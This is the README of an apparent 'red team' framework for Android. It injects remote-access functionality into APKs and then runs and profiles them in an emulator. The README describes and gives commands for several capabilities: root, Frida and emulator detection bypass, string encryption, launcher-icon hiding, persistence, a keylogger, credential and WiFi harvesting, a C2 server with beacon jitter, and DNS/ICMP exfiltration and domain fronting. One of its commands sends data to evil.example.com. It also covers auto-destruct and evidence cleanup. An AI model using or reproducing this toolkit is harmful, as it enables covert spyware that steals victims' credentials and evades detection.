

# Android Instrumentor — Red Team Framework

Turnkey framework for instrumenting Android APKs, running them in **Genymotion**, capturing behavioral telemetry (Frida + smali hooks), extracting ML features, and training a classifier. Includes hardened C2, anti-detection evasion, payload obfuscation, post-exploitation modules, and automated MITRE ATT&CK reporting.

## Quick Start (Genymotion)

```bash
# 1) Setup Python env + tools
./setup.sh
source venv/bin/activate

# 2) Ensure Genymotion is installed and a VM exists
#    Default VM name: "Genymotion Phone"
#    gmtool: ~/Documents/Tools/genymotion/gmtool

# 3) Run full pipeline (with all evasion + obfuscation)
./run_pipeline.sh ./research-app.apk --label research:benign --rat

# 4) Start hardened C2 server
python c2_server.py --port 8080 --tls-cert cert.pem --tls-key key.pem

# 5) Generate red team report
python reporting.py --trace results/app/traces/latest_trace.json --db results/app/traces/instrumentation.db --output report.html
```

## Architecture



## Components

| Module | Role |
|--------|------|
| `instrument.py` | apktool decompile, inject service/hooks, recompile, sign |
| `evasion.py` | Anti-detection: root, Frida, emulator, debugger, SafetyNet bypass |
| `frida_evasion.js` | Runtime Frida hooks to hide from detection (maps, ptrace, strstr) |
| `obfuscator.py` | String encryption, junk code, manifest patching, polymorphic engine |
| `post_exploit.py` | Persistence (Boot, Accessibility, DeviceAdmin), credential harvest, keylogger |
| `orchestrator.py` | Genymotion start, install, exercise, Frida, pull logs |
| `frida_hooks.js` | Dynamic API/network/file/telephony/credential capture |
| `frida_to_db.py` | Convert Frida JSONL → SQLite schema |
| `feature_extractor.py` | Behavioral features for ML |
| `train_simple.py` | RandomForest trainer (honest defaults) |
| `train_model.py` | Optional LSTM path (needs TensorFlow) |
| `c2_server.py` | Hardened C2: TLS, ephemeral keys, rate limiting, session management |
| `covert_channels.py` | DNS tunneling, ICMP exfil, domain fronting, traffic mimicry |
| `reporting.py` | Automated HTML reports with MITRE ATT&CK for Mobile mapping |
| `opsec.py` | TTL auto-destruct, stealth config, evidence cleanup, OPSEC checklist |
| `deobfuscate.py` | Runtime deobfuscation via Frida class/string enumeration |
| `pipeline.py` / `run_pipeline.sh` | One-shot end-to-end runner |
| `pre_flight_check.py` | Tooling/VM readiness |

## Modules

### Evasion (`evasion.py`)

Bypasses common Android security checks:

- **Root detection**: Hooks `File.exists()`, RootBeer library, su binary checks
- **Frida detection**: Patches `/proc/self/maps` reads, `strstr` Frida checks, frida-server references
- **Emulator detection**: Spoofs `Build.*` properties, `ro.hardware`, `ro.product.model`
- **Debugger detection**: Bypasses `Debug.isDebuggerConnected()`, TracerPid checks
- **SafetyNet/Play Integrity**: Patches attestation calls

```bash
# Apply all evasion patches to decompiled APK
python evasion.py --apk-dir ./output/decompiled --mode full

# Generate Frida evasion script
python evasion.py --apk-dir ./output/decompiled --frida-script frida_evasion.js
```

### Hardened C2 (`c2_server.py`)

- **Ephemeral keys**: Per-session AES keys, rotated every hour
- **TLS**: Optional TLS with `--tls-cert` and `--tls-key`
- **Rate limiting**: Per-agent request throttling
- **Session management**: Multi-session tracking with unique session IDs
- **Beacon jitter**: Randomized agent communication intervals
- **Dead drop resolver**: DNS-based fallback C2 address resolution
- **Operator auth**: API key authentication for dashboard operations

```bash
python c2_server.py --port 8080 \
    --tls-cert cert.pem --tls-key key.pem \
    --api-key $(openssl rand -hex 32) \
    --jitter 5000 \
    --dead-drop-domain drop.example.com
```

### Payload Obfuscation (`obfuscator.py`)

- **String encryption**: XOR-based smali string encryption with runtime decryptor
- **Junk code injection**: Random NOP, math, and string methods
- **Manifest patching**: Hide launcher icon, disable backup, add persistence permissions
- **Polymorphic engine**: Randomize register allocation to change fingerprints

```bash
python obfuscator.py --apk-dir ./output/decompiled --mode full
```

### Post-Exploitation (`post_exploit.py`)

- **Persistence**: BootReceiver, AccessibilityService, DeviceAdmin
- **Credential harvesting**: SharedPreferences dumper, KeylogService
- **Clipboard monitoring**: Persistent clipboard sniffer
- **WiFi stealer**: Extract saved network credentials

```bash
python post_exploit.py --apk-dir ./output/decompiled --mode full
```

### Covert Channels (`covert_channels.py`)

- **DNS tunneling**: Encode data as DNS queries with hex/base32/base64url
- **ICMP exfiltration**: Exfil via ICMP echo request payloads
- **Domain fronting**: HTTPS through CDN providers (CloudFront, Azure, Fastly)
- **Traffic mimicry**: Wrap C2 data in legitimate-looking analytics/API payloads
- **Chunked exfil**: Integrity-checked, jittered data chunking

```bash
python covert_channels.py --mode dns --data "sensitive data" --domain evil.example.com
python covert_channels.py --mode fronting --target d111111abcdef8.cloudfront.net --domain real-cdn.example.com
```

### Reporting (`reporting.py`)

Generates HTML reports with:

- Executive summary with event/technique counts
- MITRE ATT&CK for Mobile technique mapping
- API call frequency analysis
- Network activity timeline
- Data collection event table
- Severity scoring and recommendations

```bash
python reporting.py --trace results/app/traces/latest_trace.json \
    --db results/app/traces/instrumentation.db \
    --output report.html
```

### OPSEC (`opsec.py`)

- **TTL auto-destruct**: Agent removes itself after configured hours
- **Stealth config**: Inject smali constants for beacon jitter, max exfil limits
- **Evidence cleanup**: Remove temp dirs, logs, build artifacts
- **Stealth check**: Audit decompiled APK for detection vectors

```bash
python opsec.py --mode stealth --apk-dir ./output/decompiled
python opsec.py --mode cleanup --work-dir /tmp/apk_instrument_*
python opsec.py --mode check --apk-dir ./output/decompiled
```

## Configuration

Edit `config.yaml`:

```yaml
c2:
  host: 0.0.0.0
  port: 8080
  tls_cert: null
  tls_key: null
  jitter_ms: 5000
  session_ttl_hours: 72

evasion:
  enabled: true
  modes: [root, frida, emulator, debugger, safetynet]

obfuscation:
  enabled: true
  string_encryption: true
  junk_code: true
  manifest_patching: true

post_exploit:
  enabled: true
  persistence: true
  credential_harvest: true

opsec:
  ttl_hours: 72
  auto_destruct: true
  stealth_logging: true

covert_channels:
  dns_tunnel: false
  traffic_mimicry: true
  chunked_exfil: true
```

## Manual stage commands

```bash
# Decompile + evade + obfuscate + post-exploit (RAT mode)
python instrument.py ./app.apk -o ./output --rat --c2-host 127.0.0.1 --c2-port 8080
python evasion.py --apk-dir ./output/decompiled --mode full
python obfuscator.py --apk-dir ./output/decompiled --mode full
python post_exploit.py --apk-dir ./output/decompiled --mode full

# Run analysis
python orchestrator.py ./output/instrumented-app.apk --backend genymotion --vm "Genymotion Phone"

# Process telemetry
python frida_to_db.py ./output/traces/frida_events.jsonl -o ./output/traces/instrumentation.db
python feature_extractor.py ./output/traces/instrumentation.db -o features.json
python train_simple.py --features features.json --output model_rf.pkl

# C2 + reporting
python c2_server.py --port 8080 --tls-cert cert.pem --tls-key key.pem
python reporting.py --trace output/traces/latest_trace.json --output report.html
```

## Tests

```bash
source venv/bin/activate
python -m pytest -q
# or
python -m unittest discover -s tests -v
```

## Troubleshooting

- **gmtool not found** — set `paths.gmtool` or `export GMTOOL=~/Documents/Tools/genymotion/gmtool`
- **VM off** — pipeline starts `Genymotion Phone` automatically via gmtool
- **Install fails** — ensure VM is booted (`gmtool admin list`) and adb sees serial
- **Empty Frida logs** — push matching `frida-server` to the VM
- **TLS errors** — generate self-signed cert: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes`
- **Rate limited** — increase `rate_limit_max` in config or use `--jitter` flag

## License

MIT — research and experimentation only. Use only on systems/apps you are authorized to analyze.
